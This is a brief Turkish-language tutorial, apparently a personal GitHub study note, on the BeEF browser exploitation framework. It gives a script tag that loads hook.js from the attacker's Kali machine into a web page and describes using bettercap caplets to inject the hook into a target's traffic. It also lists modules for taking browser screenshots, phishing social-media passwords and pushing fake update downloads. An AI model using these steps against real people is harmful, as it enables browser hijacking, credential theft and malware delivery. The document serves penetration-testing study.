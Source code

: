 # Beef 
---
#### Beef Hedef PC'nin arama motorunda JS kodu çalıştırır

#### 1.```beef-xss``` beef'i açıyoruz
#### 2. Beef'in sitesine üye olmamız gerekiyor
#### 3.```/var/www/html``` içerisinde ki ```inde.html``` açıyoruz
#### 4. İçerisine ```<script src="http://192.168.123.456:3000/hook.js"></script>``` yazıyoruz ```JS kodu içindeki IP Kalimizin IP'si olmalı```
#### 5. Artık bizim apache service'imize giren PC'leri Beef üzerinden görebiliriz

# JS Kodu Enjeksiyonu ve Sürekli İzleme
---
### ```usr/share/bettercap/caplets/beefcustom``` içerisindeki ```.js``` ve ```.cap``` dosyalarındaki kodları değiştiriyoruz
> ## .js içine kendi Kali IP'mizi yazıyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/7a72a371b14ce345df21530e7a7c3d676869afd1/WhatsApp%20Image%202022-08-28%20at%2011.59.29.jpeg)

> ## .cap içine hedef PC'nin IP'sini yazıyoruz
![](https://github.com/ahmetnuysal/Cyber-Security/blob/7a72a371b14ce345df21530e7a7c3d676869afd1/WhatsApp%20Image%202022-08-28%20at%2012.00.00.jpeg)



# Bazı Beef Komutları
---
* #### spydereye: Browser'ın SS'ini alır
* #### create alert dialog: Belirlenen mesajı hedef browser ekranına bastırır
* #### pretty theft: Sosyal medya hesabınızdan çıkış yapıldı bastırıp kullanıcı adı ve şifre ister
* #### fake notificatio bar: Hedefe fake bir güncelleme bildirimi yollayıp dosya indirebiliriz

                          
